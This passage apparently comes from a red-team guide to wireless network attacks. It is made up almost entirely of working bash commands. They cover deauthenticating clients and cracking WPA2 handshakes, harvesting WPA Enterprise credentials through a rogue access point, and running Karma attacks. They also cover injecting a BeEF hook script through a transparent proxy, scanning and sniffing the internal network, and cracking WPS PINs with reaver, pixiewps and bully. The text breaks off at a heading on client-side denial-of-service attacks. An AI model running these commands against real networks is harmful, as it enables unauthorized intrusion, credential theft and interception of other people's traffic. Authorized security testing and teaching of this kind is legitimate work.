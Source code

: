```bash
# Select appropriate attack method based on findings
# For WPA2-PSK:
sudo aireplay-ng -0 10 -a 00:11:22:33:44:55 wlan0mon
sudo aircrack-ng -w wordlist.txt capture-01.cap

# For WPA Enterprise:
sudo eaphammer -i wlan0 --channel 6 --auth wpa-eap --essid "Corp-Secure" --creds

# For Karma-susceptible devices:
sudo mana-toolkit --full
```

### 5. Post-Exploitation and Lateral Movement

```bash
# Set up transparent proxy for traffic interception
sudo bettercap -iface at0 -eval "set http.proxy.script beef-inject.js; http.proxy on"

# Analyze internal network
sudo nmap -sS -A 192.168.0.0/24 -iface at0

# Capture sensitive information
sudo tcpdump -i at0 -w capture.pcap "port 80 or port 443"
```

![Wireless Assessment Methodology](./images/wireless_methodology.png)
*Figure 15.4: Comprehensive Wireless Assessment Methodology showing the 5-phase approach*

## Additional Wireless Attack Techniques

Beyond the primary tools covered, consider these additional wireless attack techniques for comprehensive red team operations:

### WPS (Wi-Fi Protected Setup) Attacks

```bash
# Scan for WPS-enabled APs
wash -i wlan0

# Attack vulnerable WPS implementation
reaver -i wlan0 -b 00:11:22:33:44:55 -vv

# Use PixieWPS for accelerated attacks
pixiewps -e PKE -r PKR -s e-hash1 -z e-hash2 -a authkey -n e-nonce -m r-nonce

# Integrated attack with Bully
bully wlan0 -b 00:11:22:33:44:55 -d -v 3
```

### Client-Side DoS Attacks
